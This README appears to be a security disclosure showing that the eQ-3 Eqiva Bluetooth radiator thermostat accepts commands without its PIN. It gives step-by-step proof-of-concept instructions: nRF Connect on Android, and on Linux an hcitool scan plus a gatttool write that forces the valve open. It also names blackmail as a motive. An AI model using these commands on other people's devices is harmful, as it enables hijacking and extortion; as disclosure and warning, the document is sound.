 # Security leak in smart home thermostat eQ-3 Eqiva Bluetooth

[Beschreibung in Deutsch](Readme_ger.md)

The [eQ-3 Eqiva](http://www.eq-3.de/produkte/eqiva/bluetooth-smart-heizkoerperthermostat.html) is a smart home thermostat for radiators with an integrated Bluetooth LE interface. The manufacture recommends the following app to control the thermostat using a smartphone: [Calor BT](https://play.google.com/store/apps/details?id=de.eq3.ble.android&hl=de).

When using the app to connect to the thermostat a 4 digit PIN code which has to be read from the thermostat must be entered. This is an important security feature to only allow persons that have physical access to the thermostat to control it remotely.

Surprisingly this PIN code is not necessary when sending Bluetooth LE commands directly to the thermostat using the corresponding tools (an Android smartphone is sufficient, see below). **This means that anyone within the Bluetooth LE range of around 40m can control and therefore hijack the thermostat.**

Attack reasons reach from the sole purpose of changing the settings to blackmailing where the radiator is turned off until a certain amount of money has been paid.

**At the moment it has to be advised to turn the Bluetooth feature off completely within the thermostat settings.**

## Android

### 1\. Install nRF Connect

<https://play.google.com/store/apps/details?id=no.nordicsemi.android.mcp&hl=de>

### 2\. Connect with the thermostat

![01-nrf-connect](/img/01-nrf-connect.png)

### 3\. Select BLE Characteristic

![02-nrf-connect](/img/02-nrf-connect.png)

### 4\. Activate boost mode (Fully open the valve)

![03-nrf-connect](/img/03-nrf-connect.png)

## Linux (tested with Raspberry Pi 3 and Raspbian)

### 1\. Scan for BLE devices

`hcitool lescan`

![HCI Tool Scan Example](/img/01-hcitool-scan.png)

Device with name "CC-RT-BLE" is the thermostat.

### 2\. Activate boost mode (Fully open the valve)

`gatttool -b 00:1A:22:09:DA:10 --char-write-req --handle=0x0411 --value=4501`

_Change MAC address accordingly._

## Further information:

- [eq-3 Eqiva API Documentation by Heckie75 at Github](https://github.com/Heckie75/eQ-3-radiator-thermostat/blob/master/eq-3-radiator-thermostat-api.md)
